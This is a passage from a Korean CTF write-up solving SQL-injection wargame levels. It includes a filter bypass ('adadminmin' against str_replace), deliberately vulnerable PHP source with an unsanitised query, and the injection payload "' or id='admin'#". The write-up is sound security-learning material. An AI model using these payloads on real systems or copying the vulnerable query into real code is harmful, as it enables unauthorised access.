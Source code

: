 ## 풀이
8번 문제에서 살짝 변형을 했습니다. 이번에는 id 입력 값에서 소문자로 변환 후에, str_replace 함수를 통해서 admin -> 공백으로 문자열 변환을 시킵니다. 

이 부분은 **adadminmin**과 같이 입력을 한다면 1차 필터링에서 가운데 있는 **admin**만 사라지게 되어서 결과가 **admin**이 됩니다.

```python
id=adadminmin
```

![image](https://user-images.githubusercontent.com/33647663/158067959-914e4485-7a75-4dba-8c93-5522a628a524.png)


# 10번
## 문제
```sql
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_skeleton where id='guest' and pw='{$_GET[pw]}' and 1=0"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id'] == 'admin') solve("skeleton"); 
  highlight_file(__FILE__); 
?>
```

## 풀이
이 문제는 무얼 의도한건진 잘 모르겠는데 다음과 같이 평범하게 인젝션을 해주면 풀립니다.

```sql
pw=' or id='admin'#
```

![image](https://user-images.githubusercontent.com/33647663/158068035-cc88475a-c5c4-47ce-bb43-223428bb6275.png)

